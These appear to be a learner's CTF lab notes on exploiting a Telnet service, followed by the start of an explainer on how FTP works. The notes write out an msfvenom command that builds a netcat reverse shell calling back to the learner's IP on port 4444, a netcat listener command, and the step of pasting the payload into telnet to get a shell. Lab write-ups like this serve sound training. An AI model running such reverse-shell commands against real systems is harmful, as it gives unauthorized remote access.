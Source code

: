 

![[Pasted image 20250107221505.png]]
##### using msfvenom

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:  

**"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"**

-p = payload

lhost = our local host IP address (this is **your** machine's IP address)

lport = the port to listen on (this is the port on **your** machine)

R = export the payload in raw format


this did not work , how i fixed it :

ip a 

gets the ip the put it directly in lhost

└─$ msfvenom -p cmd/unix/reverse_netcat LHOST=10.21.117.138 lport=4444 R

Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:

**"nc -lvnp [listening port]"**


Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!

![[Pasted image 20250107223617.png]]


![[Pasted image 20250107223636.png]]

cat flag.txt

found the flag.


## FTP

**Definition**:  
FTP is a protocol used for transferring files between computers over a network. It works on a ==client-server== model, where a client sends commands and the server responds, transferring files as requested.

---

### **How FTP Works**:

- **Two Channels**:
    
    1. **Command (Control) Channel**: Used for sending commands and receiving responses.
    2. **Data Channel**: Used for transferring the actual data (files).
- **Client-Server Interaction**:
    